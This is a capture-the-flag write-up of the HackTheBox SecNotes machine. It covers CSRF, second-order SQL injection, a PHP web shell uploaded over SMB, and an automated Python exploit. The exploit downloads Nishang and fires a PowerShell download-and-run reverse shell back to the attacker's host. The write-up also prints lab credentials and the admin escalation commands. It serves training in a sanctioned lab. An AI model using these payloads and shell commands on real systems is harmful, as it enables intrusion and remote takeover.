

This was a Medium Level Box from HackTheBox, it's OS was Windows.

It's exploration was trough Web, with a XSS which is triggered when you got a Contact Us form. You can change the user password with it. The password of Tyler is changable and you can get access to it's notes. 

One of this notes we can get a credential to access the smb share. Once you access it you can upload a malicious php and trigger it from the port 8808.

After you got a shell, you see a WSL, with bash.exe. Once you execute it you can get get the admin credentials and psexec or winexe in it.

That's it.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.97
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.


We look on the source code to try to understand what is being executed, but nothing interesting here.


We click on `Sign Up` to create an account to get in the app and see it better


Create a User


We got redirected to `/home.php`


On the top of `/home.php` we see home hints about how to explore it

```
Due to GDPR, all users must delete any notes that contain Personally Identifable Information (PII) Please contact tyler@secnotes.htb using the contact link below with any questions.
```

We see that it's waiting for interaction with user. If we check on login page, `tyler` is also a valid login.

We got FOUR buttons. Which allows us to perform actions on the app. 

1) Create Note -  We can create a new note and put any kind of information in it, but how we cannot share it to another user, we cannot trigger it, because most XSS attacks will work only in this way.

2) Change Password - This is interesting, we'll exploit it further.

3) Sign Out - It only destroy the session and redirect to login page.

4) Contact Us - This is interesting, we'll exploit it further too.

### Change Password

We will start with the Change Password Function. If we try to change the password, we are redirect to `change_pass.php`


We fill it and let burp opened with it


We got back to `home.php` and a message of `Password Changed` is shown to us


But if we see in burp, we got something interesting


If we try that to send a GET by visiting `http://10.10.10.97/change_pass.php?password=a1b2c3&confirm_password=a1b2c3&submit=submit`, it works! It's good, if we got any way to XSS, it's very useful.

### Contact Us

With we go to contact us, we see that we can send data to it also.


We see few seconds later that it reach us


So we know that there are something being processed/executed on the box.

## XSRF

Cross-Site Request Forgery is the intended way to get Tyler's credentials. Cross-Site Request Forgery (CSRF) is an attack that forces authenticated users to submit a request to a Web application against which they are currently authenticated. CSRF attacks exploit the trust a Web application has in an authenticated user.

XSRF is easily defeated by including POST parameters such as a token in the form that generates the request which would not be replicated in the link passed to the target.

Getting it's password

The combination of the `/change_pass.php` accepting GET and not requiring the current password, and the ability we have to get someone to click on links in the `/contact.php` page give us an opportunity for a Cross-Site Request Forgery (XSRF) attack.

I'll include url to change the password in the message, and then another for our local host, when I see a callback, I can try to log in as tyler and the password I use.

```
http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit
http://10.10.14.20/
```


And we got it back


Now we try to login as Tyler, and get success


Great, got logged in as tyler.

## Second Order SQLi

We can get access to the notes which we need by a SQLInjection on the user.

If we register a user with `' or 1='1` as login, we can access the Notes


After we got this machine I'll show you this vuln on the code.

We got credentials in one of the notes


```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

## Port 445

Using the creds from the site, we can use `smbmap` and see what we have access

```sh
smbmap -H 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&'
```


We connect to `new-site`

```sh
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
```


We put a malicious php in the page


Now, we try to RCE, it does not worked on port 80, but worked on port 8808, which matches to the ISS files we have on the shared folder


Now, we get a reverse shell


Now, let's automate a reverse shell on this box, to get easier.

So, we'll start with our python skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


smb_rev_auto.py

```py
#!/usr/bin/python3
# Date: 2021-09-09
# Exploit Author: 0x4rt3mis
# Hack The Box - SecNotes
# Auto Reverse Shell - SMB

import argparse
import requests
import sys
import os
import urllib.parse
import socket, telnetlib
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Make the upload of the malicious php
def uploadMalPhp(rhost,username,password):
    print("[+] Now, let's upload the php to the SMB!!! [+]")
    os.system('echo "<?php system(\$_REQUEST[\"cmd\"]); ?>" > 0x4rt3mis.php')
    os.system("smbclient -U '" + username + "%" + password + "' //" + rhost + "/new-site -c 'put 0x4rt3mis.php file.php'")
    print("[+] File Uploaded !!!! [+]")

# Mount the payload
def mountPayload(lhost,lport):
    if os.path.isfile('Invoke-PowerShellTcp.ps1'):
        os.system("rm Invoke-PowerShellTcp.ps1")
    print("[+] Let's download the Nishang reverse [+]")
    os.system("wget -q -c https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1")
    print("[+] Download Ok! [+]")
    print("[+] Let's add the call to reverse shell! [+]")
    file = open('Invoke-PowerShellTcp.ps1', 'a')
    file.write('Invoke-PowerShellTcp -Reverse -IPAddress %s -Port %s' %(lhost,lport))
    file.close()
    print("[+] Call added! [+]")

# Get the reverse shell
def getRev(rhost,lhost):
    print("[+] Now, let's get the reverse shell! [+]")
    url = "http://%s:8808/0x4rt3mis.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"cmd": "powershell IEX(New-Object Net.WebClient).downloadString('http://%s/Invoke-PowerShellTcp.ps1')" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-pa', '--password', help='Password of the user', required=True)
    parser.add_argument('-ip', '--ip', help='IP to receive the reverse shell', required=True)
    parser.add_argument('-p', '--port', help='Port to receive the reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    password = args.password
    lhost = args.ip
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web server
    webServer()
    # Upload the malicious php
    uploadMalPhp(rhost,username,password)
    # Mount our payload
    mountPayload(lhost,lport)
    # Get the reverse shell
    getRev(rhost,lhost)

if __name__ == '__main__':
    main()
```

# Tyler --> root

Now we can get root access to this box.

## First Method - bash.exe

We see a `bash.lnk` on the Tyler's Desktop.


It's very interesting since it's a Windows Box. So, we search for bash.exe, which is this .lnk executing.

```cmd
Get-ChildItem -Filter "bash.exe" -Recurse
```


We execute it


We see on the `bash_history` the admin credentials


`smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$`

With **psexec** from **Impacket** we got root


## Second Method - History Tyler

The user's bash file system is located in the users AppData folder inside the rootfs folder:

`C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root`


`type .bash_history | findstr smbclient`


Got it!

Now with `winexe`

`winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe`


# Extra

More than just get root in this box, is important to understand how it was built. So let's jump in it.

## XSS

To trigger the Tyler activity, the machine creator used a PowerShell script to perform it.


```powershell
$resp = Invoke-WebRequest 'http://127.0.0.1/' -UseBasicParsing -sessionvariable session
$ip = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
                                                    
while($true) {                                                                                           
                                                    
  $found_url = 0;
                                                    
  $locs = @($ip, '127.0.0.1', 'secnotes.htb', 'localhost')
  ForEach ($loc in $locs) {
    $resp = Invoke-WebRequest "http://$loc/" -UseBasicParsing -WebSession $session
    if ($resp.RawContent -like '*Please fill in your credentials to login*') {
      Write-Host "Reseting password and getting cookie for $loc"
      # reset tylers password to forested85sunk
      & 'C:\Program Files\MySQL\MySQL Server 8.0\bin\mysql.exe' -u secnotes -pq8N#9Eos%JinE57tke72 secnotes -e 'update users set password = \"$2y$10$q6EzQPEssjjQ7J5bdMTbQ.GGQaBTVZZ.hSO04gJkr9U0DCqxB2oL.\" where
 username = \"tyler\";'

      # login
      $resp = Invoke-WebRequest "http://$loc/login.php" -UseBasicParsing -WebSession $session -Method POST -Body @{username='tyler';password='forested85sunk'};
    }
  }
   

  $file = Get-ChildItem "C:\Users\tyler\secnotes_contacts\" -Filter *.txt | Sort-Object CreationTime | Select-Object -First 1
        if ($file) {
                Write-Host "Opening file $($file)..."
                $content = Get-Content $file.FullName
                $content.split(' ') | ForEach-Object { 
                        if ($_ -match "^https?://((([\w-]+\.)+[\w-]+)|localhost)(:\d+)?([\w- ./?&%=]*)$") { 
                                $url = $matches[0];

                                Write-Host "Visiting $($url)"
                                try {
                                (iwr $url -WebSession $session -TimeoutSec 1 -UseBasicParsing).content
                                } catch {
                                        Write-Host "Page not found"
                                }
                                if ($url -match "change_pass.php") {
                                        Write-Host "Found change_pass.php... will sleep 30"
                                        $found_url = 1
                                }
                        }
                }

                Write-Host "Deleting file $($file)"
                Remove-Item $file.FullName
        }

        if ($found_url -eq 1) {
                Write-Host "Sleeping for 30 seconds" 
                Start-Sleep -s 30
        } else {
                Write-Host "Sleeping for 5 seconds"
                Start-Sleep -s 5
        }
}
```

Credits of this explanation from 0xdf.

First of all it sets the cookie value from it

The PHPSESSID is from the currently authenticated session for tyler on the SecNotes website. At the start of the script, it sets that value to the cookie for 127.0.0.1, secnotes.htb, and the current public IP, which is determined by running $ip = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1].

On each loop iteration, the script will again get the current IP, and then check to see that there’s a cookie for that url, and add it if not.

After seeted it visits the page of the messages. The php site drops messages into a folder as txt files. The script will open up the oldest file (from the contact page on the site), and split the text on spaces into words. It uses a regex to look for urls, and if there’s a url, tries to visit. It will visit each url in the message. The regex could be better, as it will miss links inside **<a href=".**

Visit Links

To visit links, the script uses Invoke-WebRequest (actually iwr), and it prints the content to the terminal. It uses a try/catch so that if the page isn’t found, it prints a nice message rather than an ugly error.

It then deletes the message file. Sleep

If a url with the string change_pass.php is detected and visited, the script will sleep for 30 seconds. This is to give the players a chance to log in before someone else might change it.

Otherwise, the script will sleep for only 5 seconds. This will still give some space between clicks, but will hopefully not create a huge backlog, since really only one user can have tyler’s correct password at a time.

## Injection in SecNotes

What is Second Order SQLInjection?

[PortSwigger](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)

```
SQL injection vulnerabilities arise when user-controllable data is incorporated into database SQL queries in an unsafe manner. An attacker can supply crafted input to break out of the data context in which their input appears and interfere with the structure of the surrounding query.
```

So, the data which goes to the app is not the data input directly.

Here a snippet from login.php

```php
<?php
$sql = "SELECT id, title, note, created_at FROM posts WHERE username = '" . $username . "'";
$res = mysqli_query($link, $sql);
if (mysqli_num_rows($res) > 0) {     
    while ($row = mysqli_fetch_row($res)) {                                             
        echo '<button class="accordion"><strong>' . $row[1] . '</strong>  <small>[' . $row[3] . ']</small></button>';
        echo '<a href=/home.php?action=delete&id=' . $row[0] . '" class="btn btn-danger"><strong>X</strong></a>';
        echo '<div class="panel center-block text-left" style="width: 78%;"><pre>' . $row[2] . '</pre></div>';
    }                                     
} else {                    
    echo '<p>User <strong>' . $username . '</strong> has no notes. Create one by clicking below.</p>';
}                             
?>
```

If $username is controlled by the user and not filtered, then SQLI is possible. So in the case of my SQLi username, $sql becomes: "SELECT id, title, note, created_at FROM posts WHERE username = '' or 1='1'";. That results in printing all the notes for all users.